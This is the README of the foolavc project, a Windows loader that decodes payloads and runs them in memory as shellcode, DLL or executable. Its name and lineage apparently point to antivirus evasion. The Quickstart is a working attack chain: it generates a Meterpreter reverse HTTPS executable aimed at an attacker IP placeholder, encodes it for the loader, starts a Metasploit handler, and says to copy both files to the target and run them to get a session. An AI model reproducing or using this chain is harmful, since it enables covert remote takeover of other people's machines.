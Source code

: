 # foolavc

This project is [foolav](https://github.com/hvqzao/foolav) continuation.

Original [foolav](https://github.com/hvqzao/foolav) was offered only as x86 executable, used single encoding for externally kept payload file. Once foolav is executed, payload is loaded into memory and executed as a shellcode in separate thread.

foolavc on the other hand supports both x86 and x86_64 architectures, allows use of both internal (built-in) or external payloads. Those can be interpreted in one of three ways: shellcode, DLL and EXEcutable.

## Quickstart

```bash
cd foolavc
# create meterpreter executable
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=__ATTACKER_IP__ LPORT=8443 -f exe -o met64.exe
# encode it to met64.me
python m-encode.py met64.exe
# foolavc.exe acts as a loader, must have same name as .me file created earlier
cp x64/Release/foolavc.exe met64.exe

# create .rc script for metasploit
echo >msf.rc <<EOF
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LPORT 8443
set LHOST 0.0.0.0
set ReverseListenerBindAddress 0.0.0.0
set AutoRunScript migrate -f
show options
run -j
EOF
# start metasploit console with above script
msfconsole -qL -r msf.rc

# now copy both met64.exe and met64.me to the target system and execute met64.exe (foolavc binary)
# meterpreter session should spawn
```

## Functionality

Once started binary checks for content of `xl variable (payload.h)`. If set, it will be loaded into memory as DLL. Same thing happens for `xe variable` (loaded and executed in memory as PE executable file). `xf variable`, if set, will be executed as shellcode. In order to generate payload, [x-encode.py](x-encode.py) script is provided.

External payloads should be stored in files in the same directory as executable. Those should be encoded using [m-encode.py](m-encode.py) scipt. `.ml` is threated as DLL, `.me` as EXE and `.mf` as shellcode. Executable checks its name and attempts to open file with same name and one of before mentioned extensions.

## Hints

 - Remember to use **consistent architecture** between binary and used payloads.

 - Once first present payload is executed, program waits for an input and is terminated. pause is used to wait for an input. If needed, this can be commented out or just bypassed - i.e. `echo | pause`

## License

[MIT License](LICENSE)

This project uses [MemoryModule](https://github.com/fancycode/MemoryModule) library (MPL 2.0 Licensed)
